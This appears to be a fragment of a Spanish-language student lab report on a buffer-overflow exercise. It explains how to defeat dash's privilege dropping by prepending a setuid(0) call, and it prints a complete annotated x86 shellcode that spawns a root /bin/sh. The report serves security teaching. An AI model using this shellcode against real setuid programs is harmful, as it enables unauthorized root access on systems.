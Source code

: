 \documentclass[11pt]{article}
\begin{document}
\begin{figure}[h!]
    \begin{center}
        \texttt{[image: exploitworking.png]}
    \end{center}
\end{figure}

\textbf{Nota:} El programa debo ejecutarlo debo utilizando su path absoluto,
ya que al debuggear con gdb, gdb ejecuta con este path y no con su path relativo
al directorio actual, cargando esto en memoria y modificando todas las direcciones.

\subsection*{Ejercicio adicional 2.5}
Una de las medidas de seguridad desactivadas al principio es cambiar la shell utilizada
por el sistema cuando se realiza la llamada al sistema por el exploit, la shell
\textbf{dash} detecta cuando la UID efectiva no es igual a la UID real y descarta
los privilegios de root. La forma de evitar esto al principio fue utilizando otra shell,
en este caso \textbf{zsh}, pero en este ejercicio volvemos a utilizar \textbf{dash}
y se supera esta medida mediante otro método.

Para esto se setea la UID a 0 (root) antes de llamar a la shell y esta modificación
es fácil de realizar, donde se le agregan unas líneas al principio del shellcode anterior:

\begin{verbatim}
char shellcode[] =
    "\x31\xc0" /* Line 1: xorl %eax,%eax */
    "\x31\xdb" /* Line 2: xorl %ebx,%ebx */
    "\xb0\xd5" /* Line 3: movb $0xd5,%al */
    "\xcd\x80" /* Line 4: int $0x80 */
    // ---- The code below is the same as the one in Task 2 ---
    "\x31\xc0"             /* xorl    %eax,%eax              */
    "\x50"                 /* pushl   %eax                   */
    "\x68""//sh"           /* pushl   $0x68732f2f            */
    "\x68""/bin"           /* pushl   $0x6e69622f            */
    "\x89\xe3"             /* movl    %esp,%ebx              */
    "\x50"                 /* pushl   %eax                   */
    "\x53"                 /* pushl   %ebx                   */
    "\x89\xe1"             /* movl    %esp,%ecx              */
    "\x99"                 /* cdq                            */
    "\xb0\x0b"             /* movb    $0x0b,%al              */
    "\xcd\x80"             /* int     $0x80                  */
;
\end{verbatim}
\end{document}
